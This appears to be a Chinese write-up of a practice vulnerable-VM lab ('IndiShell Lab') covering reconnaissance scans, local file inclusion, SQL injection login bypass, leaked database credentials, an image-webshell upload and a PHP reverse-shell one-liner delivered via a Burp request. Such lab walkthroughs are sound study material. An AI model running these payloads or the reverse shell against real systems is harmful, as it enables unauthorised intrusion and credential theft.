

# 综合靶场

## 信息收集

[nmap](https://so.csdn.net/so/search?q=nmap&spm=1001.2101.3001.7020) -sn 192.168.229.0/24发现主机：192.168.229.128

```
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)
|   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)
|_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: --==[[IndiShell Lab]]==--
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 00:0C:29:2F:48:54 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

nmap --min-rate 10000 -p- 192.168.229.128

扫描端口发现22ssh,80http

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-25 06:08 EDT
Nmap scan report for 192.168.124.130
Host is up (0.000046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:55:15:9B (VMware)
 
Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds
```

nmap -sT -sV  -sC -O -p22,80 192.168.229.128

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)
|   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)
|_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: --==[[IndiShell Lab]]==--
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 00:0C:29:55:15:9A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

发现：ssh：openssh5.91
系统：ubuntu
80：apache2.2.22

nmap --script=vuln -p22,80 192.168.124.130

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /test.php: Test page
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
```

发现/test.php和/images

扫一下目录

御剑

```
http://192.168.229.128/images/
http://192.168.229.128/index.php
http://192.168.229.128/test.php
http://192.168.229.128/add.php
http://192.168.229.128/head.php
http://192.168.229.128/show.php
http://192.168.229.128/c.php
http://192.168.229.128/in.php
```

dirb

```
---- Scanning URL: http://192.168.229.128/ ----
+ http://192.168.229.128/add (CODE:200|SIZE:307)                                                            
+ http://192.168.229.128/c (CODE:200|SIZE:1)                                                           
+ http://192.168.229.128/cgi-bin/ (CODE:403|SIZE:291)                                                       
+ http://192.168.229.128/head (CODE:200|SIZE:2793)                                                           
==> DIRECTORY: http://192.168.229.128/images/                                                               
+ http://192.168.229.128/in (CODE:200|SIZE:47559) 
+ http://192.168.229.128/index (CODE:200|SIZE:3267)                       
+ http://192.168.229.128/index.php (CODE:200|SIZE:3267)                        
+ http://192.168.229.128/panel (CODE:302|SIZE:2469)                         
+ http://192.168.229.128/server-status (CODE:403|SIZE:296)                    
+ http://192.168.229.128/show (CODE:200|SIZE:1)        
+ http://192.168.229.128/test (CODE:200|SIZE:72)
```

dirsearch

```
# Dirsearch started Wed Nov 15 21:45:59 2023 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://192.168.229.128 -e php,html,js -o output.txt --format=plain

200   307B   http://192.168.229.128/add
200   307B   http://192.168.229.128/add.php
200     1B   http://192.168.229.128/c
200     3KB  http://192.168.229.128/head
200     3KB  http://192.168.229.128/head.php
200   501B   http://192.168.229.128/images/
200    47KB  http://192.168.229.128/in
200     8KB  http://192.168.229.128/phpmy/
200     1B   http://192.168.229.128/show
200    72B   http://192.168.229.128/test
200    72B   http://192.168.229.128/test.php
```

主机：192.168.229.128

操作系统：

```
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 

Ubuntu 12.04 support ended on 2017-04-30.
Upgrade to Ubuntu 21.04 / LTS 20.04 / LTS 18.04.

Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```

服务器信息：

```
Apache/2.2.22 (Ubuntu)
```

端口信息：

```
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
```

## 打靶测试

访问test.php


发现需要一个参数，可能存在文件包含漏洞

利用post试试访问/etc/passwd


有下载文件，存在文件包含

发现ica有ssh连接权限


试试shadow，发现不行

试试phpmyadmin的配置文件


得到root密码

ssh root@192.168.229.128 登录成功


试一试另外一个，包含php代码，进行审计

**index.php**

```php
 $uname=str_replace('\'','',urldecode($_POST['un']));
	$pass=str_replace('\'','',urldecode($_POST['ps']));
	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
	$result = mysqli_query($conn, $run);
```

uname: or 1=1 #

pass:\ 

**c.php**

```php
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );
 
ini_set( 'session.cookie_httponly', 1 );
 
$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");
 
// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }
 
?>
```

暴露出一个mysql账号密码billu/b0x_billu,尝试登录phpmyadmin



biLLu hEx_it

成功进入网页，可以文件上传


**panel.php**

```php
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
```

做个图片马上传

php -r '$sock=fsockopen("192.168.229.128",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

burp抓包改一下

```
POST /panel.php?cmd=php+-r+'$sock%3dfsockopen("192.168.229.128",4444)%3bexec("/bin/bash+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
 
Host: 192.168.229.128
 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 
Accept-Encoding: gzip, deflate
 
Content-Type: application/x-www-form-urlencoded
 
Content-Length: 44
 
Origin: http://192.168.229.128
 
Connection: close
 
Referer: http://192.168.229.128/panel.php
 
Cookie: PHPSESSID=qk032v1ta4bih4td5h328fq205
 
Upgrade-Insecure-Requests: 1
 
 
 
load=uploaded_images/1.jpg&continue=continue
 
```


